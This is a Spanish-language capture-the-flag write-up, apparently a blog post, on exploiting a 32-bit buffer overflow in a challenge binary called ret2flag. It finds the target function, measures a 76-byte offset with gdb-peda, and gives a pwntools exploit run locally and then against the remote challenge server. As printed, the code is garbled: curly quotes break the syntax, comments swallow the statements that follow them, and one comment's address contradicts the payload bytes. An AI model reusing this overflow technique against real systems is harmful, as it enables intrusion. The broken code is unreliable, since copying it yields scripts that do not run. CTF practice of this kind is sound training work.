 ```yaml
---
title: Ret2Flag-CTF-Q4SB
date: 2020-07-25 11:58:47 +07:00
---
```


Inicialmente nos entregan lo siguiente:

![ctf](/assets/img/1.png)

Donde nos entregan el binario ret2flag el cual procedemos a analyzar con r2.

![ret2flag](/assets/img/2.png)

Siguiendo la teoria de ret2win , debemos encontrar una función que retornar para cuando tengamos el control de EIP dentro del binario , por lo que encontramos la funcion sym.flag la cual hace lo siguiente:

![ret2flag2](/assets/img/3.png)

Donde llama la función sym.imp.system la cual de forma interna hace un cat a flag.txt. (esto lo veremos mas adelante)

Como ya tenemos la función que retornar , necesitamos saber con cuantos bytes el programa obtiene un crash para controlar EIP.

Ocupe gbd con peda para generar un pattern y obtener la cantidad de bytes necesarias.

![ret2flag3](/assets/img/4.png)

Generando un patron de 200 bytes, ejecutaremos el binario para ver donde empezamos a pisar EIP.

![ret2flag4](/assets/img/5.png)

Nos entrega que el buffer del binario son 76 bytes , entonces como ya tenemos la funcion donde debemos saltar la cual es sym.flag , solamente nos queda codear el exploit.

Codigo:

```python
#/usr/bin/python3
from pwn import *#Ejecutar binario
p=process(‘./ret2flag’)#Bytes para el crash 76
payload=”A”*76
#Direccion de la memoria de sym.flag 0x0840852d se debe entregar en little endian
payload+=”\x2d\x85\x04\x08"#Esperamos el mensaje de la ejecucion del binario para enviar el payload
p.recvuntil(‘Esta es la ultima vez en 32!’)
#Enviamos el payload
p.sendline(payload)
#Recibimos la respuest de forma interactiva
p.interactive()
```

Lo ejecutamos de forma local y obtenemos que flag.txt no existe en nuestro dispositivo.

![ret2flag5](/assets/img/6.png)

Por lo que ahora ya sabemos que funciona, lo haremos remoto solo le cambiamos la linea de donde obtiene el binario para esto de la siguiente forma.

```python
#/usr/bin/python3
from pwn import *#Ejecutar binario desde el host remoto
p=remote(‘165.227.83.238’,8888)#Bytes para el crash 76
payload=”A”*76
#Direccion de la memoria de sym.flag 0x0840852d se debe entregar en little endian
payload+=”\x2d\x85\x04\x08"#Esperamos el mensaje de la ejecucion del binario para enviar el payload
p.recvuntil(‘Esta es la ultima vez en 32!’)
#Enviamos el payload
p.sendline(payload)
```

Lo ejecutamos y obtenemos nuestra flag.

![ret2flag6](/assets/img/7.png)

Flag: Q4SB{n0_m4s_32_b1ts_si_ahor4_viene_arm}
